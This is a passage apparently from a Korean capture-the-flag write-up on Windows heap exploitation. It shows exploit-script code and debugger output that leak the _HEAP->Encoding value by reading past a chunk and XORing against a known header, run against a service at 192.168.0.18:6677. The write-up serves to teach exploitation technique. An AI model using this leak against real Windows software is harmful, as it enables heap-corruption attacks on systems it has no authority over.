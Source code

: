```python
[*] size 0x0138 can be usable to info leak( 0x0000ceb027d0cdb5 )
[*] size 0x0148 can be usable to info leak( 0x0000ceb10dd0cd9f )
[*] size 0x0158 can be usable to info leak( 0x0000ceb2f9d0cd6b )
[*] size 0x0168 can be usable to info leak( 0x0000ceb3abd0cd39 )
[*] size 0x0178 can be usable to info leak( 0x00001fb485bbdffe )
[*] size 0x0188 can be usable to info leak( 0x00001fb5fbbbdf80 )
[*] size 0x0198 can be usable to info leak( 0x00001fb62fbbdf54 )
[*] size 0x01a8 can be usable to info leak( 0x00001fb761bbdf1a )
[*] size 0x01b8 can be usable to info leak( 0x00001fb059bbdf22 )
[*] size 0x01c8 can be usable to info leak( 0x0000b3a2b2d6edd0 )
[*] size 0x01d8 can be usable to info leak( 0x0000b3a1eed6ed8c )
[*] size 0x01e8 can be usable to info leak( 0x0000b3a028d6ed4a )
...
'''
```

디코딩된 header의 값은 항상 고정되어 있기 때문에 이를 이용해 **_HEAP->Encoding** 값을 leak할 수 있습니다.

```python
# skip for brevity...

SIZE = 0xC8    # yes, I intend korean slang
alloc(1, SIZE)
edit(1, "A" * SIZE)
heap_encod = u64(show(1)[SIZE:] + "\x00\x10") ^ 0x1000000d02010003
log.info("_HEAP->Encoding = 0x%016x" % heap_encod)
pause()

'''
$ python ex.py
[+] Opening connection to 192.168.0.18 on port 6677: Done
[*] _HEAP->Encoding = 0x0000f300f8d50db2
[*] Paused (press any to continue)
....
0:001> dqs beefdad0000 l5
00000bee`fdad0000  0000ddaa`beef1acd
00000bee`fdad0008  00000000`000000c8
00000bee`fdad0010  00000000`00000001
00000bee`fdad0018  face6da6`1a35c767
00000bee`fdad0020  000001e5`30874370
0:001> !heap -p -a 000001e5`30874370
    address 000001e530874370 found in
    _HEAP @ 1e530870000
              HEAP_ENTRY Size Prev Flags            UserPtr UserSize - state
        000001e530874360 000d 0000  [00]   000001e530874370    000c8 - (busy)
          unknown!noop

0:001> dqs 1e530870000+80 l2
000001e5`30870080  00000000`00000000
000001e5`30870088  0000f300`f8d50db2
'''
```
